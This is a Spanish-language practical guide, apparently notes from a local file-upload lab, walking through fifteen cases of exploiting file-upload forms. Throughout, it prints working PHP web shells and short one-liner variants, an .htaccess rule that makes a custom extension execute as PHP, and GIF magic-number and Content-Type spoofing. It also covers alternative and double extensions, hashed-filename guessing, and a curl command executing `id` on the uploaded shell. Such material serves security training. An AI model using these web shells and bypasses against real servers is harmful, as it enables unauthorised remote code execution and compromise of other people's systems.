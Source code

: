 > 🎯 _Guía práctica para identificar, explotar y bypassar restricciones en sistemas de subida de archivos_

---

## 🧪 Caso 1: Sin sanitización ❌

🛠️ **Payload:**

php

Copiar código

`<?php system($_GET['cmd']); ?>`

🔍 **Pasos:**

1. Subimos el script PHP sin restricciones.
    
2. Usamos herramientas como **Gobuster** para encontrar la ruta de subida.
    
3. Ejecutamos comandos directamente vía `?cmd=id`.
    

✅ **Exploit:**  
`http://localhost/uploads/cmd.php?cmd=id`

---

## 🧪 Caso 2: Restricción por extensión (validación client-side) 🎭

🎯 Extensiones permitidas: `.gif`, `.jpg`, `.png`

🔍 **Bypass:**

1. Inspeccionamos con `Ctrl + Shift + C` en el navegador.
    
2. Eliminamos la validación HTML (JS).
    
3. Subimos el archivo PHP sin problemas.
    

💡 _La validación solo estaba en el navegador, no en el servidor._

---

## 🧪 Caso 3: Validación server-side ❌ `.php` bloqueado

🧠 Referencia: HackTricks – File Upload Tricks

📌 **Bypass usando `.php5`**  
Subimos `cmd.php5` →  
✅ `http://localhost:9001/upload10/uploads/cmd.php5?cmd=id`

---

## 🧪 Caso 4: `.pht` como extensión alternativa

📌 **Bypass con `.pht`**

✅ `http://localhost:9001/upload11/uploads/cmd.pht?cmd=id`

---

## 🧪 Caso 5: `.htaccess` para redefinir el intérprete 📜

🧩 Subimos archivo `.htaccess` con:

apache

Copiar código

`AddType application/x-httpd-php .test`

Luego subimos `pwned.test`:

php

Copiar código

`<?php system($_GET['cmd']); ?>`

🎯 **Content-Type:** Cambiar entre `text/plain` y `application/x-php`

✅ Ejecución: `http://localhost/pwned.test?cmd=id`

---

## 🧪 Caso 6: Restricción de tamaño 📏

📌 **MAX_FILE_SIZE interceptado con Burp:**

- Cambiar de `30` a `80`
    

🩹 **Alternativa:** Reducir payload con One-Liner:

php

Copiar código

``<?=`$_GET[0]`?>``

---

## 🧪 Caso 7: Validación de tamaño en el servidor 🧱

🔁 Enviamos al **Repeater**  
📌 Bypass con versión corta del payload:

php

Copiar código

``<?=`$_GET[cmd]`?>``

---

## 🧪 Caso 8: Restricción por tipo de archivo 🔐

📋 Modificamos el **Content-Type**:

- Original: `application/x-php`
    
- Bypass: `image/jpg`
    

📌 También se puede modificar el **magic number**:

php

Copiar código

`GIF8; <?php system($_GET['cmd']); ?>`

---

## 🧪 Caso 9: Validación GIF (magic number) 🎭

📌 Payload con magic number y Content-Type:

http

Copiar código

`Content-Type: image/gif GIF8; <?php system($_GET['cmd']); ?>`

✅ Ejecutar como `.php` en URL

---

## 🧪 Caso 10: Hashing del nombre de archivo con MD5 🔐

📌 Comando:

bash

Copiar código

`echo -n "cmd" | md5sum`

📍 Resultado:  
`http://localhost:9001/upload31/uploads/<hash>.php?cmd=id`

---

## 🧪 Caso 11: Hash del nombre completo (`cmd.php`) con MD5

bash

Copiar código

`echo -n "cmd.php" | md5sum`

✅ Ejecutar:  
`http://localhost:9001/upload32/uploads/<hash>.php?cmd=id`

---

## 🧪 Caso 12: Hash con SHA1 🧾

📌 Se requiere **Gobuster** para descubrir rutas basadas en hash SHA1

---

## 🧪 Caso 13: Doble extensión 📁

📌 Payload:  
`cmd.jpg.php`

🧠 Bypass común en servidores que validan solo la última extensión.

---

## 🧪 Caso 14: El archivo se descarga 🧲

📌 Solución:

bash

Copiar código

`curl -s -X GET "http://localhost:9001/upload56/testing/cmd.php" -G --data-urlencode "cmd=id"`

✅ Resultado:  
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

---

## 🧪 Caso 15: Bypass con `.htaccess` (nuevamente) 🧩

📄 Cargamos `.htaccess` para redefinir tipo MIME  
Luego subimos archivo con extensión `.test` y ejecutamos PHP

---

### 📚 Recursos útiles:

- HackTricks – File Upload
    
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Upload)
